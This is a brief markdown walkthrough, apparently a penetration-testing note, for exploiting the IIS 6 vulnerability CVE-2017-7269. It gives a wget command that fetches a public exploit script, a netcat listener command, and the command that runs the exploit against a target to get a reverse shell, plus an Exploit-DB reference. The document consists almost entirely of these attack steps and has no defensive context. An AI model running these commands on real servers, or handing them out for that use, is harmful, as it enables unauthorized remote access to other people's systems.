 ### Download file
```
wget https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell -O 41738-github.py
```

### Start listener
```
nc -lnvp <lport>
```

### Exploit (you may need to run it multiple times)
```
python 41738-github.py <rhost> <port> <lhost> <lport>
```

### References
https://www.exploit-db.com/exploits/41738  

